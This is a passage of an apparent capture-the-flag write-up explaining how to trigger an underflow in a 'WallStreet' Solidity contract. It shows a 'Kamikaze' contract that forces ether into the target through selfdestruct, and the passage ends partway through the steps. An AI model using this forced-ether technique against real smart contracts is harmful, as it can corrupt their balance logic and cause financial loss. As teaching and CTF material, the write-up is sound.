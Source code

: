 ```Solidity
constructor() public payable {
	stockExchangeAmount = msg.value;
}
```

![lvl4_0](images/lvl4_0.png)

A way to trigger this underflow could be to give some amount of ether at a payable function of the *WallStreet* contract but there is none.

The only way to give some ether at a contract without his consent is to destroy another contract and give the address of our contract as the recipient of our ether.

Let's make this second malicious contract.

### Get the money

There is my *Kamikaze* contract source code :

```solidity
pragma solidity >=0.4.21 <0.6.0;

contract Kamikaze {

    constructor() public payable {
    }

    function close() public  {
        selfdestruct(0xF4159a7238FB2A208D347C267F5ED323b46c1474);
    }
}
```
I deployed my Kamikaze contract with an initial amount of ether :

![lvl4_1](images/lvl4_1.png)

And just click on the function *close* in order to kill the contract :
